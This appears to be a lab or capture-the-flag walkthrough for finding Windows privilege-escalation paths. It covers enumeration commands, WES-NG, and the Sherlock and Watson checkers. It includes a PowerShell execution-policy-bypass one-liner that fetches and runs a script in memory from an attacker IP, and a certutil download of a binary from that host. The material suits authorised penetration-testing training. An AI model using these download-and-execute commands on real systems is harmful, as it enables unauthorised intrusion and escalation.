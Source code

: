 Assumptions:
- Attacker IP: 10.10.14.2
- HTTP server on attacker: python3 -m http.server 8000
- Target is a lab host you’re allowed to test.

1) Enumerate OS/build/patch level on the target
```
whoami
whoami /all
whoami /priv

ver
systeminfo

wmic os get Caption,Version,BuildNumber,OSArchitecture
wmic qfe get HotFixID,InstalledOn,Description

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v BuildLabEx
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ReleaseId
```

Save relevant info to files (optional):
```
systeminfo > C:\Users\Public\systeminfo.txt
wmic qfe get HotFixID,InstalledOn,Description > C:\Users\Public\hotfixes.txt
```

2) Get systeminfo to your attacker box (easy way: copy/paste from terminal). Or host-side suggesters can parse manually.

3) On the attacker, run WES-NG (Windows Exploit Suggester—NG)
- Install and update database:
```
pip3 install wesng --user
~/.local/bin/wesng --update
```
- Analyze systeminfo for Elevation of Privilege vulns with public exploits:
```
~/.local/bin/wesng -e -i "Elevation of Privilege" systeminfo.txt > wesng-eop.txt
```
Notes:
- Use wesng -h to confirm flags on your version.
- -e limits to vulns with known public exploits.
- -i filters by impact (e.g., “Elevation of Privilege”).

4) PowerShell-based checker (alternative) — Sherlock
- One-liner to load and run Sherlock in memory (no file write):
```
powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2:8000/Sherlock.ps1'); Find-AllVulns"
```
Expected: Lists vulnerable MS bulletins (e.g., MS15-051) if applicable.

5) C# binary checker (alternative) — Watson
- Transfer:
```
certutil -urlcache -f http://10.10.14.2:8000/Watson.exe Watson.exe
```
- Run:
```
Watson.exe
```
Expected: Displays OS, missing patches, and candidate CVEs.
